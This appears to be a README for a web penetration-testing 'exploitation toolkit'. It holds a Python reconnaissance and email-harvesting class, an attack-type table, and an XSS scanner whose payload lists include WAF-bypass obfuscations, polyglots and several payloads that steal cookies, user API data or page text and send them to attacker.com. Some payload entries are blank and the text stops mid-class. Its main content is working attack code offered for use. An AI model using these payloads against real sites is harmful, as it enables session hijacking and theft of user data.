# 🛡️ Advanced Web Application Security Research & Attack Methodologies

**Author:** S. Tamilselvan - Senior Security Researcher & Penetration Tester  
**Project:** Comprehensive Web Application Security Testing Framework & Exploitation Toolkit  
**Version:** 3.0 Enhanced Professional Edition  
**Last Updated:** December 2024  
**Research Focus:** Advanced Persistent Threats, Zero-Day Discovery, Defense Evasion & Automated Exploitation

---

## 📋 Comprehensive Table of Contents

1. [Project Overview & Research Methodology](#project-overview--research-methodology)
2. [Security Research Framework](#security-research-framework)
3. [Attack Types & Threat Intelligence](#attack-types--threat-intelligence)
4. [XSS (Cross-Site Scripting) - Advanced Exploitation](#xss-cross-site-scripting---advanced-exploitation)
5. [CSRF (Cross-Site Request Forgery) - Complete Framework](#csrf-cross-site-request-forgery---complete-framework)
6. [SQL Injection - Master Class & Automation](#sql-injection---master-class--automation)
7. [SSRF (Server-Side Request Forgery) - Deep Dive](#ssrf-server-side-request-forgery---deep-dive)
8. [Directory Brute Force - Intelligent Enumeration](#directory-brute-force---intelligent-enumeration)
9. [JWT Token Misconfigurations - Complete Analysis](#jwt-token-misconfigurations---complete-analysis)
10. [Command Injection - System Compromise](#command-injection---system-compromise)
11. [File Upload Vulnerabilities - RCE Techniques](#file-upload-vulnerabilities---rce-techniques)
12. [Authentication & Session Management](#authentication--session-management)
13. [Business Logic Vulnerabilities](#business-logic-vulnerabilities)
14. [API Security Testing Framework](#api-security-testing-framework)
15. [Mobile Application Security](#mobile-application-security)
16. [Cloud Security Assessment](#cloud-security-assessment)
17. [Advanced Exploitation Scripts](#advanced-exploitation-scripts)
18. [Automated Testing Framework](#automated-testing-framework)
19. [Defense Evasion Techniques](#defense-evasion-techniques)
20. [Vulnerability Research Methodology](#vulnerability-research-methodology)
21. [Reporting & Documentation](#reporting--documentation)
22. [Legal & Ethical Guidelines](#legal--ethical-guidelines)
23. [Professional Resources & References](#professional-resources--references)

---

## 🎯 Project Overview & Research Methodology

This repository represents a comprehensive security research initiative focused on advanced web application penetration testing methodologies, zero-day vulnerability discovery, and sophisticated attack vector analysis. Developed by S. Tamilselvan, this framework serves as both an educational resource and a practical toolkit for security professionals, ethical hackers, and developers seeking to understand and defend against modern cyber threats.

### 🎯 Primary Research Objectives
- **Advanced Vulnerability Research**: Deep-dive analysis of complex security flaws and zero-day discovery
- **Exploitation Framework Development**: Custom tools and automated scripts for security testing
- **Defense Evasion Techniques**: Methods to bypass modern security controls and WAFs
- **Real-World Attack Simulation**: Practical exploitation scenarios and proof-of-concepts
- **Automated Testing Solutions**: Scalable security assessment frameworks
- **Security Awareness Training**: Educational content for security professionals
- **Threat Intelligence**: Analysis of emerging attack vectors and trends

### 🔬 Research Methodology Framework


### 🏆 Key Features & Capabilities
- **1000+ Custom Payloads** across different attack vectors
- **100+ Automated Scripts** for vulnerability discovery and exploitation
- **Advanced Bypass Techniques** for modern security controls
- **Real-World Case Studies** with detailed technical analysis
- **Interactive Testing Labs** for hands-on learning
- **Comprehensive Reporting Templates** for professional assessments
- **Threat Intelligence Integration** for emerging vulnerabilities
- **Multi-Platform Support** (Web, Mobile, API, Cloud)

---

## 🔍 Security Research Framework

### Phase 1: Reconnaissance & Intelligence Gathering

#### 1.1 Advanced Passive Information Gathering
```python
#!/usr/bin/env python3
"""
Advanced Passive Reconnaissance Framework
Author: S. Tamilselvan
Purpose: Comprehensive target intelligence gathering with OSINT integration
"""

import requests
import dns.resolver
import whois
import shodan
import json
import subprocess
import re
import threading
from concurrent.futures import ThreadPoolExecutor
import time
import socket
from urllib.parse import urlparse, urljoin
import ssl
import hashlib

class AdvancedPassiveRecon:
    def __init__(self, target_domain):
        self.target = target_domain
        self.results = {
            'domain_info': {},
            'dns_records': {},
            'subdomains': [],
            'technology_stack': {},
            'social_media': {},
            'email_addresses': [],
            'leaked_credentials': [],
            'certificates': {},
            'whois_data': {},
            'shodan_data': {},
            'github_repos': [],
            'pastebin_leaks': []
        }
        
    def comprehensive_recon(self):
        """Execute comprehensive passive reconnaissance"""
        print(f"[*] Starting comprehensive reconnaissance for {self.target}")
        
        # Multi-threaded reconnaissance
        with ThreadPoolExecutor(max_workers=10) as executor:
            futures = [
                executor.submit(self.dns_enumeration),
                executor.submit(self.subdomain_enumeration),
                executor.submit(self.technology_detection),
                executor.submit(self.whois_lookup),
                executor.submit(self.certificate_transparency),
                executor.submit(self.social_media_discovery),
                executor.submit(self.email_harvesting),
                executor.submit(self.github_reconnaissance),
                executor.submit(self.pastebin_search)
            ]
            
            for future in futures:
                try:
                    future.result(timeout=60)
                except Exception as e:
                    print(f"[!] Reconnaissance task failed: {e}")
        
        return self.results
    
    def dns_enumeration(self):
        """Comprehensive DNS enumeration"""
        print("[*] Performing DNS enumeration...")
        dns_records = ['A', 'AAAA', 'MX', 'NS', 'TXT', 'CNAME', 'SOA', 'PTR', 'SRV']
        
        for record_type in dns_records:
            try:
                answers = dns.resolver.resolve(self.target, record_type)
                self.results['dns_records'][record_type] = [str(answer) for answer in answers]
            except:
                self.results['dns_records'][record_type] = []
        
        # DNS Zone Transfer attempt
        try:
            ns_servers = self.results['dns_records'].get('NS', [])
            for ns in ns_servers:
                zone_transfer = self.attempt_zone_transfer(ns)
                if zone_transfer:
                    self.results['dns_records']['zone_transfer'] = zone_transfer
        except:
            pass
    
    def subdomain_enumeration(self):
        """Advanced subdomain discovery using multiple techniques"""
        print("[*] Enumerating subdomains...")
        subdomains = set()
        
        # Dictionary-based enumeration
        wordlist = [
            'www', 'mail', 'ftp', 'admin', 'test', 'dev', 'staging', 'api', 'app',
            'mobile', 'secure', 'vpn', 'remote', 'blog', 'shop', 'store', 'support',
            'help', 'docs', 'portal', 'dashboard', 'panel', 'cpanel', 'webmail',
            'mx', 'ns1', 'ns2', 'dns', 'email', 'smtp', 'pop', 'imap', 'exchange',
            'owa', 'autodiscover', 'lyncdiscover', 'sip', 'voip', 'pbx', 'citrix',
            'vpn', 'ssl', 'secure', 'login', 'auth', 'sso', 'ldap', 'ad', 'dc',
            'backup', 'archive', 'old', 'legacy', 'deprecated', 'beta', 'alpha',
            'demo', 'sandbox', 'lab', 'research', 'internal', 'intranet', 'extranet'
        ]
        
        def check_subdomain(sub):
            try:
                full_domain = f"{sub}.{self.target}"
                dns.resolver.resolve(full_domain, 'A')
                subdomains.add(full_domain)
                print(f"[+] Found subdomain: {full_domain}")
            except:
                pass
        
        with ThreadPoolExecutor(max_workers=50) as executor:
            executor.map(check_subdomain, wordlist)
        
        # Certificate Transparency logs
        ct_subdomains = self.certificate_transparency_subdomains()
        subdomains.update(ct_subdomains)
        
        # Search engine enumeration
        search_subdomains = self.search_engine_subdomains()
        subdomains.update(search_subdomains)
        
        self.results['subdomains'] = list(subdomains)
    
    def technology_detection(self):
        """Advanced technology stack detection"""
        print("[*] Detecting technology stack...")
        
        try:
            response = requests.get(f"http://{self.target}", timeout=10, allow_redirects=True)
            headers = response.headers
            content = response.text
            
            tech_stack = {
                'server': headers.get('Server', 'Unknown'),
                'x_powered_by': headers.get('X-Powered-By', 'Unknown'),
                'framework': self.detect_framework(content, headers),
                'cms': self.detect_cms(content, headers),
                'javascript_libraries': self.detect_js_libraries(content),
                'programming_language': self.detect_programming_language(content, headers),
                'database': self.detect_database_hints(content, headers),
                'cdn': self.detect_cdn(headers),
                'security_headers': self.analyze_security_headers(headers)
            }
            
            self.results['technology_stack'] = tech_stack
            
        except Exception as e:
            print(f"[!] Technology detection failed: {e}")
    
    def detect_framework(self, content, headers):
        """Detect web framework"""
        frameworks = {
            'Django': [r'csrfmiddlewaretoken', r'django', r'__admin_media_prefix__'],
            'Laravel': [r'laravel_session', r'_token', r'laravel'],
            'Spring': [r'JSESSIONID', r'spring', r'struts'],
            'ASP.NET': [r'__VIEWSTATE', r'__EVENTVALIDATION', r'aspnet'],
            'Ruby on Rails': [r'authenticity_token', r'rails', r'_csrf_token'],
            'Express.js': [r'express', r'connect.sid'],
            'Flask': [r'flask', r'session'],
            'CodeIgniter': [r'ci_session', r'codeigniter'],
            'Symfony': [r'symfony', r'_sf2_attributes'],
            'Zend': [r'zend', r'ZENDPHPSESSID']
        }
        
        detected = []
        content_lower = content.lower()
        
        for framework, patterns in frameworks.items():
            for pattern in patterns:
                if re.search(pattern, content_lower, re.IGNORECASE):
                    detected.append(framework)
                    break
        
        # Check headers
        server = headers.get('Server', '').lower()
        powered_by = headers.get('X-Powered-By', '').lower()
        
        if 'express' in server or 'express' in powered_by:
            detected.append('Express.js')
        if 'apache' in server:
            detected.append('Apache')
        if 'nginx' in server:
            detected.append('Nginx')
        
        return list(set(detected))
    
    def github_reconnaissance(self):
        """Search for GitHub repositories and leaked information"""
        print("[*] Searching GitHub for leaked information...")
        
        search_queries = [
            f'"{self.target}"',
            f'"{self.target}" password',
            f'"{self.target}" api_key',
            f'"{self.target}" secret',
            f'"{self.target}" config',
            f'"{self.target}" database',
            f'"{self.target}" credentials'
        ]
        
        # This would implement GitHub API search
        # Note: Requires GitHub API token for full functionality
        repos = []
        
        for query in search_queries:
            try:
                # GitHub search implementation would go here
                # repos.extend(github_search(query))
                pass
            except:
                pass
        
        self.results['github_repos'] = repos
    
    def email_harvesting(self):
        """Harvest email addresses from various sources"""
        print("[*] Harvesting email addresses...")
        
        emails = set()
        
        # Search engines
        search_queries = [
            f'site:{self.target} "@{self.target}"',
            f'"{self.target}" email',
            f'"{self.target}" contact'
        ]
        
        # Web scraping
        try:
            response = requests.get(f"http://{self.target}", timeout=10)
            email_pattern = r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b'
            found_emails = re.findall(email_pattern, response.text)
            emails.update(found_emails)
        except:
            pass
        
        self.results['email_addresses'] = list(emails)
    
    def certificate_transparency(self):
        """Query Certificate Transparency logs"""
        print("[*] Querying Certificate Transparency logs...")
        
        try:
            # Query crt.sh
            url = f"https://crt.sh/?q=%.{self.target}&output=json"
            response = requests.get(url, timeout=30)
            
            if response.status_code == 200:
                certs = response.json()
                cert_info = []
                
                for cert in certs[:10]:  # Limit to first 10 certificates
                    cert_info.append({
                        'id': cert.get('id'),
                        'name_value': cert.get('name_value'),
                        'not_before': cert.get('not_before'),
                        'not_after': cert.get('not_after'),
                        'issuer_name': cert.get('issuer_name')
                    })
                
                self.results['certificates'] = cert_info
        except Exception as e:
            print(f"[!] Certificate transparency query failed: {e}")
    
    def shodan_lookup(self, api_key):
        """Shodan intelligence gathering"""
        if not api_key:
            return
        
        print("[*] Performing Shodan lookup...")
        
        try:
            api = shodan.Shodan(api_key)
            
            # Search by domain
            results = api.search(f'hostname:{self.target}')
            
            shodan_data = {
                'total_results': results['total'],
                'hosts': []
            }
            
            for result in results['matches'][:5]:  # Limit to first 5 results
                host_info = {
                    'ip': result['ip_str'],
                    'port': result['port'],
                    'protocol': result['transport'],
                    'service': result.get('product', 'Unknown'),
                    'version': result.get('version', 'Unknown'),
                    'banner': result.get('data', '')[:200],  # Limit banner size
                    'location': {
                        'country': result.get('location', {}).get('country_name'),
                        'city': result.get('location', {}).get('city')
                    },
                    'vulnerabilities': result.get('vulns', [])
                }
                shodan_data['hosts'].append(host_info)
            
            self.results['shodan_data'] = shodan_data
            
        except Exception as e:
            print(f"[!] Shodan lookup failed: {e}")

# Usage example for the reconnaissance framework
if __name__ == "__main__":
    recon = AdvancedPassiveRecon("example.com")
    results = recon.comprehensive_recon()
    
    print("\n" + "="*60)
    print("RECONNAISSANCE RESULTS")
    print("="*60)
    print(f"Subdomains found: {len(results['subdomains'])}")
    print(f"Email addresses: {len(results['email_addresses'])}")
    print(f"Technologies detected: {len(results['technology_stack'])}")
    
    # Save results
    with open('recon_results.json', 'w') as f:
        json.dump(results, f, indent=2)
```

---

## 🔍 Attack Types & Threat Intelligence

### Comprehensive Vulnerability Classification Matrix

| Attack Vector | CVSS Score | Exploitability | Business Impact | Detection Difficulty | Prevalence | Remediation Complexity | Automation Level |
|---------------|------------|----------------|-----------------|---------------------|------------|----------------------|------------------|
| **SQL Injection** | 9.8 | High | Critical | Medium | High | Medium | High |
| **NoSQL Injection** | 9.5 | High | Critical | Hard | Medium | High | Medium |
| **XSS (Stored)** | 8.8 | High | High | Easy | Very High | Low | High |
| **XSS (Reflected)** | 7.5 | High | Medium | Easy | Very High | Low | High |
| **XSS (DOM-based)** | 7.2 | Medium | Medium | Hard | High | Medium | Medium |
| **CSRF** | 6.5 | Medium | Medium | Medium | Medium | Low | High |
| **SSRF** | 8.6 | Medium | High | Hard | Medium | Medium | Medium |
| **XXE (XML External Entity)** | 8.2 | Medium | High | Medium | Low | Medium | Medium |
| **Directory Traversal** | 7.5 | High | Medium | Easy | High | Low | High |
| **File Upload RCE** | 9.3 | High | Critical | Easy | Medium | Medium | Medium |
| **Command Injection** | 9.8 | High | Critical | Medium | Medium | Medium | Medium |
| **JWT Vulnerabilities** | 7.8 | Medium | High | Medium | Medium | Medium | High |
| **Insecure Deserialization** | 9.0 | Medium | Critical | Hard | Low | High | Low |
| **LDAP Injection** | 8.1 | Medium | High | Medium | Low | Medium | Medium |
| **Template Injection (SSTI)** | 8.5 | Medium | High | Hard | Low | High | Low |
| **Race Conditions** | 6.8 | Hard | Medium | Very Hard | Low | High | Low |
| **Business Logic Flaws** | 7.0 | Medium | High | Very Hard | Medium | High | Very Low |
| **Authentication Bypass** | 8.9 | Medium | Critical | Medium | Medium | Medium | Medium |
| **Session Management** | 7.6 | Medium | High | Medium | High | Medium | Medium |
| **Privilege Escalation** | 8.4 | Medium | High | Hard | Medium | High | Low |

### Advanced Attack Categories & Techniques

#### 🎯 **Injection Attack Vectors**


#### 🌐 **Client-Side Attack Vectors**
- **Cross-Site Scripting (XSS)** - All variants with advanced bypass techniques
- **Cross-Site Request Forgery (CSRF)** - Including SameSite bypass methods
- **Clickjacking** - UI redressing and frame busting bypass
- **DOM Clobbering** - Prototype pollution and object manipulation
- **PostMessage Vulnerabilities** - Cross-origin communication flaws
- **WebSocket Hijacking** - Real-time communication attacks
- **Client-Side Prototype Pollution** - JavaScript object manipulation

#### 🔐 **Authentication & Authorization Flaws**
- **Broken Authentication** - Multi-factor bypass and session attacks
- **Session Management Flaws** - Token prediction and fixation
- **JWT Vulnerabilities** - Algorithm confusion and secret attacks
- **OAuth Misconfigurations** - Authorization code flow attacks
- **SAML Attacks** - XML signature wrapping and assertion manipulation
- **Password Reset Vulnerabilities** - Token prediction and race conditions
- **Biometric Bypass** - Spoofing and replay attacks

#### 📡 **Server-Side Attack Vectors**
- **Server-Side Request Forgery (SSRF)** - Internal network access and cloud metadata
- **XML External Entity (XXE)** - File disclosure and SSRF via XML
- **Insecure Deserialization** - Remote code execution via object manipulation
- **File Upload Vulnerabilities** - RCE through malicious file uploads
- **Directory Traversal** - Path manipulation and file system access
- **Remote/Local File Inclusion** - Code execution via file inclusion
- **Server-Side Template Injection** - Code execution in template engines

#### 🏢 **Business Logic & Application Logic**
- **Race Conditions** - Time-of-check time-of-use vulnerabilities
- **Business Logic Bypass** - Workflow manipulation and validation bypass
- **Price Manipulation** - E-commerce and payment system flaws
- **Privilege Escalation** - Horizontal and vertical privilege abuse
- **Workflow Vulnerabilities** - State machine manipulation
- **Rate Limiting Bypass** - Anti-automation control evasion

---

## 🚨 XSS (Cross-Site Scripting) - Advanced Exploitation

### Comprehensive XSS Analysis Framework

Cross-Site Scripting represents one of the most prevalent and dangerous client-side vulnerabilities, affecting over 70% of web applications. This section provides advanced methodologies for XSS discovery, exploitation, and defense evasion.

### XSS Classification & Attack Vectors

#### 1. **Reflected XSS (Non-Persistent)**


#### 2. **Stored XSS (Persistent)**


#### 3. **DOM-based XSS**


### XSS Attack Methodology Flowchart



### Advanced XSS Exploitation Framework

```python
#!/usr/bin/env python3
"""
Advanced XSS Testing Framework
Author: S. Tamilselvan
Features: Context-aware payload generation, WAF bypass, automated exploitation
"""

import requests
import urllib.parse
import re
from bs4 import BeautifulSoup
import json
import time
import random
import base64
import hashlib
from concurrent.futures import ThreadPoolExecutor
import threading

class AdvancedXSSScanner:
    def __init__(self, target_url):
        self.target = target_url
        self.session = requests.Session()
        self.payloads = self.load_payloads()
        self.contexts = []
        self.vulnerabilities = []
        self.bypass_techniques = []
        
    def load_payloads(self):
        """Load comprehensive context-specific XSS payloads"""
        return {
            'html_context': [
                '<script>alert("XSS")</script>',
                '',
                '<svg onload=alert("XSS")>',
                '<iframe src="javascript:alert(\'XSS\')">',
                '<body onload=alert("XSS")>',
                '<input onfocus=alert("XSS") autofocus>',
                '<select onfocus=alert("XSS") autofocus>',
                '<textarea onfocus=alert("XSS") autofocus>',
                '<keygen onfocus=alert("XSS") autofocus>',
                '<video><source onerror="alert(\'XSS\')">'
            ],
            'attribute_context': [
                '" onmouseover="alert(\'XSS\')" "',
                '\' onmouseover=\'alert("XSS")\' \'',
                '"><script>alert("XSS")</script>',
                '\';alert("XSS");//',
                '";alert("XSS");//',
                'javascript:alert("XSS")',
                'data:text/html,<script>alert("XSS")</script>'
            ],
            'javascript_context': [
                '\';alert("XSS");//',
                '\";alert("XSS");//',
                '</script><script>alert("XSS")</script>',
                '-alert("XSS")-',
                '+alert("XSS")+',
                '(alert("XSS"))',
                '[alert("XSS")]',
                '{alert("XSS")}'
            ],
            'css_context': [
                '</style><script>alert("XSS")</script>',
                'expression(alert("XSS"))',
                'url("javascript:alert(\'XSS\')")',
                '@import"javascript:alert(\'XSS\')"',
                'behavior:url(xss.htc)'
            ],
            'waf_bypass': [
                '<ScRiPt>alert("XSS")</ScRiPt>',
                '<script>alert(String.fromCharCode(88,83,83))</script>',
                '<script>alert(/XSS/)</script>',
                '<script>alert`XSS`</script>',
                '<script>eval(atob("YWxlcnQoIlhTUyIp"))</script>',
                '<svg><script>alert&#40;1&#41;</script>',
                '',
                '<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;">',
                '"><svg/onload=alert(/XSS/)>',
                '\'><svg/onload=alert(/XSS/)>'
            ],
            'advanced_payloads': [
                # Event handler variations
                '',
                '<svg onload=alert(document.cookie)>',
                '<iframe src="javascript:alert(localStorage.getItem(\'token\'))">',
                
                # DOM manipulation
                '<script>document.body.innerHTML="<h1>XSS</h1>"</script>',
                '<script>window.location="http://attacker.com/steal?cookie="+document.cookie</script>',
                
                # Advanced techniques
                '<script>fetch("/api/user").then(r=>r.json()).then(d=>fetch("http://attacker.com/",{method:"POST",body:JSON.stringify(d)}))</script>',
                '<script>setInterval(()=>fetch("http://attacker.com/keylog?keys="+btoa(document.body.innerText)),5000)</script>',
                
                # Polyglot payloads
                'jaVasCript:/*-/*`/*\\`/*\'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>',
            ]
        }
    
    def detect_context(self, response_text, payload):
        """Detect the context where payload is reflected"""
        contexts = []
        
        # HTML Context
        if payload in response_text and not re.search(r'<[^>]*' + re.escape(payload), response_text):
            contexts.append('html')
            
        # Attribute Context
        if re.search(r'<[^>]*' + re.escape(payload) + r'[^>]*>', response_text):
            contexts.append('attribute')
            
        # JavaScript Context
        if re.search(r'<script[^>]*>.*' + re.escape(payload) + r'.*</script>', response_text, re.DOTALL):
            contexts.append('javascript')
            
        # CSS Context
        if re.search(r'<style[^>]*>.*' + re.escape(payload) + r'.*</style>', response_text, re.DOTALL):
            contexts.append('css')
            
        return contexts
    
    def test_xss_payload(self, param_name, payload, method='GET'):
        """Test individual XSS payload"""
        try:
            if method.upper() == 'GET':
                params = {param_name: payload}
                response = self.session.get(self.target, params=params, timeout=10)
            else:
                data = {param_name: payload}
                response = self.session.post(self.target, data=data, timeout=10)
            
            if payload in response.text:
                contexts = self.detect_context(response.text, payload)
                return {
                    'vulnerable': True,
                    'payload': payload,
                    'parameter': param_name,
                    'method': method,
                    'contexts': contexts,
                    'response_length': len(response.text),
                    'status_code': response.status_code,
                    'content_type': response.headers.get('Content-Type', '')
                }
        except Exception as e:
            print(f"Error testing payload: {e}")
        
        return {'vulnerable': False}
    
    def advanced_payload_generation(self, context):
        """Generate advanced context-specific payloads"""
        advanced_payloads = []
        
        if context == 'html':
            # Event handler payloads
            events = ['onload', 'onerror', 'onmouseover', 'onclick', 'onfocus', 'onblur', 'onchange']
            tags = ['img', 'svg', 'iframe', 'body', 'div', 'input', 'textarea', 'select']
            
            for event in events:
                for tag in tags:
                    if tag == 'img':
                        payload = f'<{tag} src=x {event}=alert("XSS")>'
                    else:
                        payload = f'<{tag} {event}=alert("XSS")>'
                    advanced_payloads.append(payload)
        
        elif context == 'attribute':
            # Attribute escape payloads
            escape_chars = ['"', "'", '`']
            for char in escape_chars:
                advanced_payloads.extend([
                    f'{char} onmouseover={char}alert("XSS"){char} {char}',
                    f'{char}><script>alert("XSS")</script>',
                    f'{char} autofocus onfocus={char}alert("XSS"){char} {char}'
                ])
        
        elif context == 'javascript':
            # JavaScript context escapes
            js_escapes = [
                '\';alert("XSS");//',
                '\";alert("XSS");//',
                '</script><script>alert("XSS")</script>',
                '/**/alert("XSS")/**/',
                'alert("XSS")/*',
                '*/alert("XSS")/*'
            ]
            advanced_payloads.extend(js_escapes)
        
        return advanced_payloads
    
    def waf_bypass_techniques(self):
        """Advanced WAF bypass techniques"""
        bypass_payloads = []
        
        # Case variation
        base_payload = '<script>alert("XSS")</script>'
        variations = [
            '<ScRiPt>alert("XSS")</ScRiPt>',
            '<SCRIPT>alert("XSS")</SCRIPT>',
            '<script>Alert("XSS")</script>',
            '<script>ALERT("XSS")</script>'
        ]
        bypass_payloads.extend(variations)
        
        # Encoding techniques
        encoded_payloads = [
            '%3Cscript%3Ealert("XSS")%3C/script%3E',  # URL encoding
            '&lt;script&gt;alert("XSS")&lt;/script&gt;',  # HTML entities
            '\\u003cscript\\u003ealert("XSS")\\u003c/script\\u003e',  # Unicode
            '&#60;script&#62;alert("XSS")&#60;/script&#62;',  # Decimal entities
            '&#x3C;script&#x3E;alert("XSS")&#x3C;/script&#x3E;'  # Hex entities
        ]
        bypass_payloads.extend(encoded_payloads)
        
        # Obfuscation techniques
        obfuscated_payloads = [
            '<script>eval(String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41))</script>',
            '<script>window["alert"]("XSS")</script>',
            '<script>window[String.fromCharCode(97,108,101,114,116)]("XSS")</script>',
            '<script>setTimeout("alert(\\"XSS\\")",1)</script>',
            '<script>Function("alert(\\"XSS\\")")()</script>',
            '<script>eval(atob("YWxlcnQoIlhTUyIp"))</script>',  # Base64
            '<script>[].constructor.constructor("alert(\\"XSS\\")")()</script>'
        ]
        bypass_payloads.extend(obfuscated_payloads)
        
        # Alternative tags and attributes
        alternative_payloads = [
            '<svg onload=alert("XSS")>',
            '',
            '<iframe src="javascript:alert(\'XSS\')">',
            '<object data="javascript:alert(\'XSS\')">',
            '<embed src="javascript:alert(\'XSS\')">',
            '<form><button formaction="javascript:alert(\'XSS\')">Click</button></form>',
            '<details open ontoggle=alert("XSS")>',
            '<marquee onstart=alert("XSS")>XSS</marquee>'
        ]
        bypass_payloads.extend(alternative_payloads)
        
        return bypass_payloads
    
    def polyglot_payloads(self):
        """Multi-context polyglot XSS payloads"""
        return [
            'jaVasCript:/*-/*`/*\\`/*\'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>',
            '">\'><marquee></marquee>"></plaintext\\></|\\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>\'-->"></script><script>alert(1)</script>">\'">',
            '\';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">\'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>'
        ]
    
